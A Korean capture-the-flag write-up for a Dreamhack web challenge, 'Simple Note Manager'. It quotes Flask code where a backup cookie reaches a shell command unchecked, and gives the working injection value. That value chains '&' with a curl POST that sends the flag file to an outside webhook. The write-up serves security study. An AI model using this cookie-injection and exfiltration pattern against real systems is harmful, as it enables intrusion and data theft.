

# Simple Note Manager

구분: 개인 문제<br>
난이도: Easy<br>
분야: Web<br>
상태: 작성 완료<br>
작성일: 2026년 09월 12일<br>
<br>

# 0. 문제 정보

# 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | Simple Note Manager |
| 원본 대회 |  |
| 분야 | Web  |
| 난이도 | 초급 · 약 1/5 |
| 접속 주소 | `https://dreamhack.io/wargame/challenges/1751` |
| 플래그 형식 | `DH{...}` |

# 1. 문제 요약

- 간단한 메모를 생성, 수정, 삭제할 수 있는 기능을 제공하는 서비스
- 백업 기능을 이용하여 운영체제 명령어 삽입

---

# 2. 문제 분석
**주요 코드**
```python
def backup_notes(timestamp):
    with lock:
        with open('./tmp/notes.tmp', 'w') as f:
            f.write(repr(notes))
        subprocess.Popen(f'cp ./tmp/notes.tmp /tmp/{timestamp}', shell=True)
...
@app.route('/create_note', methods=['POST'])
def post_create_note():
    content = request.form.get('content')
    if not isinstance(content, str):
        abort(400)
    create_note(content)
    return redirect(url_for('get_index'))
...
@app.route('/update_note', methods=['POST'])
def get_update_note():
    note_id = request.form.get('note_id')
    if not isinstance(note_id, str) or not note_id.isdigit():
        abort(400)
    note_id = int(note_id)
    if note_id not in notes:
        abort(404)
    content = request.form.get('content')
    if not isinstance(content, str):
        abort(400)
    update_note(note_id, content)
    return redirect(url_for('get_index'))
...
@app.route('/delete_note', methods=['POST'])
def post_delete_note():
    note_id = request.form.get('note_id')
    if not isinstance(note_id, str) or not note_id.isdigit():
        abort(400)
    note_id = int(note_id)
    if note_id not in notes:
        abort(404)
    delete_note(note_id)
    return redirect(url_for('get_index'))
...
@app.route('/backup_notes', methods=['GET'])
def get_backup_notes():
    print(len(notes), flush=True)
    if len(notes) == 0:
        abort(404)
    page = render_template('backup_notes.html')
    resp = make_response(page)
    resp.set_cookie('backup-timestamp', f'{time.time()}')
    return resp


@app.route('/backup_notes', methods=['POST'])
def post_backup_notes():
    if len(notes) == 0:
        abort(404)
    backup_timestamp = request.cookies.get('backup-timestamp', f'{time.time()}')
    if not isinstance(backup_timestamp, str):
        abort(400)
    backup_notes(backup_timestamp)
    return redirect(url_for('get_index'))
```
간단한 메모를 생성, 수정, 삭제할 수 있는 기능을 제공하는 서비스

백업 기능이 존재하며, 백업 기능에 접근했을 때(`@app.route('/backup_notes', methods=['GET'])` ) 쿠키에 타임스탬프를 저장하고, 백업 버튼을 누르면(`@app.route('/backup_notes', methods=['POST'])` ) `subprocess.Popen` 을 이용하여 `/tmp/[timestamp]` 에 현재 노트들을 저장한다.

이때 쿠키값에 대한 별도의 검증이 없으므로 리눅스의 다중 명령어(`;` , `|` , `&` , `&&` , `||` )를 이용하여 셸 명령어를 실행할 수 있다.

이때 HTTP에서 여러개의 쿠키값을 전달할 때 각 쿠키를 세미콜론(`;` )으로 구분하기 때문에 `;` 을 사용하게 되면 그 뒤의 값은 timestamp와 분리된다.
`cp` 명령어의 수행을 실패시키는 것은 번거로우므로 `&` , `&&` 를 사용하여 원하는 명령어를 실행시키면 된다.
```
timestamp = test & curl -X POST "[webhook site url]" --data-urlencode "content@./flag"
```
브라우저의 개발자 도구를 이용해 쿠키 값을 위와 같이 설정하면 `cp ./tmp/notes.tmp /tmp/test` 는 백그라운드로 실행되고, 웹훅 사이트에 flag 파일의 내용을 body에 넣은 POST 요청을 보내게 된다.

웹훅 사이트에서 확인하면 url 인코딩된 플래그를 얻을 수 있으며, 이를 디코딩하면 플래그를 얻을 수 있다.